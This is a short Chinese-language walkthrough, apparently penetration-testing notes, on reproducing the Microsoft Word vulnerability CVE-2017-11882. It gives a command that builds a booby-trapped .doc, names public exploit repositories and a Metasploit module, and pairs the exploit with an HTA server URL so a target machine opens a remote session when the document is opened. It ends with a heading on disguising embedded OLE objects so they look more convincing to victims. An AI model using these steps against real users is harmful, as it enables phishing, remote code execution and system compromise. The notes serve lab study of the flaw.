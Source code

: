 Microsoft Office Word 的一个执行任意代码的方法，可以在不启用宏的情况下执行任意程序。

这个功能的本意是为了更方便地在 word 里同步更新其它应用的内容，比如说在一个 word 文档里引用了另一个 excel  表格里的某项内容，通过连接域 (Field) 的方式可以实现在 excel 里更新内容后 word  中同步更新的效果，问题出在这个域的内容可以是一个公式 (或者说表达式)，这个公式并不限制内容。

GitHub：

```txt
https://github.com/Ridter/CVE-2017-11882
```

使用：

```bash
python Command109b_CVE-2017-11882.py -c "cmd.exe /c calc.exe" -o test.doc
```

生成 test.doc 文档，靶机打开。成功弹出加算器

![huHzG.png](https://s3.jpg.cm/2021/03/30/huHzG.png)



 msf 复现。

项目

```txt
https://github.com/0x09AL/CVE-2017-11882-metasploit
```

```bash
exploit/windows/fileformat/office_ms17_11882
```

有点不稳，老是上线不了

![huNcX.png](https://s3.jpg.cm/2021/03/30/huNcX.png)

配合 HTA上线

```bash
exploit/windows/misc/hta_server

http://192.168.2.148:8080/IbsbCdtZ.hta


```

![huSvD.png](https://s3.jpg.cm/2021/03/30/huSvD.png)

靶机打开 `test2.doc`直接上线

![huYip.png](https://s3.jpg.cm/2021/03/30/huYip.png)

#### 2.5 word 中插入外部对象(OLE)方式欺骗

![husl6.png](https://s3.jpg.cm/2021/03/30/husl6.png)

改变题注，更加逼真

